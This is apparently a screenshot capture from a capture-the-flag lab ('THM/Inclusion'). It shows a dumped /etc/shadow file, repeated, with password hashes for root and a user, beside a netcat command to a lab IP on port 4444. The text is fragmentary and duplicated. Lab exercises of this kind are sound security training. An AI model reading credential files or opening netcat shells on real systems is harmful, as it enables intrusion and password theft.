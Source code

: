 list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:18281:0:99999:7:::
uuidd:*:18281:0:99999:7:::
dnsmasq:*:18281:0:99999:7:::
landscape:*:18281:0:99999:7:::
pollinate:*:18281:0:99999:7:::
falconfeast:$6$dYJsdbeD$rlYGlx24kUUcSHTc0dMutxEesIAUA3d8nQeTt6FblVffELe3FxLE3gOID5nLxpHoycQ9mfSC.TNxLxet9BN5c/:18281:0:99999:7:::
sshd:*:18281:0:99999:7:::
mysql:!:18281:0:99999:7:::
root@kali:~/Desktop/CTF/THM/Inclusion# netcat 10.10.120.193 4444
root:$6$mFbzBSI/$c80cICObesNyF9XxbF6h6p6U2682MfG5gxJ5KtSLrGI8766/etwzBvppTuug6aLoltiSmeqdIaEUg6f/NLYDn0:18283:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:18281:0:99999:7:::
uuidd:*:18281:0:99999:7:::
dnsmasq:*:18281:0:99999:7:::
landscape:*:18281:0:99999:7:::
pollinate:*:18281:0:99999:7:::
falconfeast:$6$dYJsdbeD$rlYGlx24kUUcSHTc0dMutxEesIAUA3d8nQeTt6FblVffELe3FxLE3gOID5nLxpHoycQ9mfSC.TNxLxet9BN5c/:18281:0:99999:7:::
sshd:*:18281:0:99999:7:::
mysql:!:18281:0:99999:7:::
'''
 